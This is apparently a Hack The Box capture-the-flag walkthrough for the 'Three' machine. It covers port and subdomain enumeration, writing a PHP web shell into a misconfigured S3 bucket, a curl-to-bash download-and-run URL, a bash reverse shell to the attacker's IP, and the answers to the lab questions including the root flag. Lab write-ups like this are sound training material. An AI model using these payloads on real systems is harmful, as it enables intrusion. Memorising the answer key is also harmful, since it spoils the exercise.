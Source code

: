 # Three - Very Easy

<details>
<summary>Nmap Scan</summary>

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>
<br>

```shell
nmap -T4 -p- -A 10.129.100.92

gobuster dir -u http://10.129.100.92 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -z

gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

sudo apt install awscli
#setup awscli

aws --version

aws configure

aws s3 ls
#this gives an error

aws s3 ls --endpoint=http://s3.thetoppers.htb

aws s3 ls --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb

echo '<?php system($_GET["1"]); ?>' > aws-shell.php

aws s3 cp aws-shell.php --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb

aws s3 ls --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb
#shows the uploaded shell

vim onelinershell.php

nc -nvlp 4445

python3 -m http.server 8080
```

```markdown
From the nmap scan, we find out that port 80 is open so we can check the website.

For enumeration, we can scan the website directories.

After getting the domain of the email address, we have to add it to our /etc/hosts file to help with further enumeration.

Using gobuster, we can scan for subdomains as well.

After getting the sub-domain, we need to add that to the /etc/hosts file as well, in the same way as we did for the TLD.

The sub-domain <http://s3.thetoppers.htb> just shows the status as running.

Checking the AWS documentation, we can get the required commands for setting up awscli.

While configuring awscli, we can give temporary values to the fields.

Later, while listing all S3 buckets, the command does not work without options, so we need to specify the domain.

Listing the buckets shows us the website's files.

We can attempt to upload a PHP shell to the S3 bucket directory.

We can use one-liner PHP shells and copy it to the S3 directory.

After uploading the file, we can visit <http://thetoppers.htb/aws-shell.php>.

Using the appropriate command parameter, <http://thetoppers.htb/aws-shell.php?1=id>, we can see our command is being run.

Now, we can try to get a reverse-shell, we need to setup a netcat listener as well.

Last step is to upload the shell file in the website, for which we can use curl.

We need to download the file as well as execute it, so we need to visit <http://thetoppers.htb/aws-shell.php?1=curl%20http://10.10.15.24:8080/onelinershell.php%20%7C%20bash>.

This gives us a shell on the listener, and flag can be found in /var/www.
```

```php
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.24/4445 0>&1
```

1. How many TCP ports are open? - 2

2. What is the domain of the email address provided in the "Contact" section of the website? - thetoppers.htb

3. In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? - /etc/hosts

4. Which sub-domain is discovered during further enumeration? - s3.thetoppers.htb

5. Which service is running on the discovered sub-domain? - Amazon S3

6. Which command line utility can be used to interact with the service running on the discovered sub-domain? - awscli

7. Which command is used to set up the AWS CLI installation? - aws configure

8. What is the command used by the above utility to list all of the S3 buckets? - aws s3 ls

9. This server is configured to run files written in what web scripting language? - PHP

10. Submit root flag. - a980d99281a28d638ac68b9bf9453c2b
